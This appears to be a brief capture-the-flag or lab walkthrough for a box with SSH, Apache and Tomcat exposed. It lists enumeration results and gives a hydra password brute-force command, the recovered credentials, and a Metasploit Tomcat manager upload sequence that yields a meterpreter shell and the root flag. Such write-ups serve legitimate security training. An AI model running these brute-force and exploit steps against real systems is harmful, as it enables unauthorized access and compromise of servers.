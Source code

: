 #BASIC INFO

```
export IP=10.10.56.5

```

##OPEN PORT

>1.	22/tcp 		OpenSSH 7.2p2 Ubuntu
>1.	80/tcp 		Apache httpd 2.4.18
>1.	1234/tcp 	Apache Tomcat/Coyote JSP engine 1.1
>1.	8009/tcp	Apache Jserv v1.3

#DIR FOUND

>1.	/guidelines/
>1.	/protected/

#CRED FOUND

>1.	bob

#BRUTEFORCE CRED

```
hydra -l bob -P /usr/share/wordlists/rockyou.txt $IP http-get /protected

```
> bob : bubbles

#USING NIKTO ON /MANAGER/HTML

>Documentation files found : 5

#EXPLOIT

>Fire up msfconsol

```
msfconsole
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS $IP
set HttpPassword bubbles
set HttpUsername bob
set RPORT 1234
run

```

>After getting a meterpreter

```
cd /root/
ls
cat flag.txt

```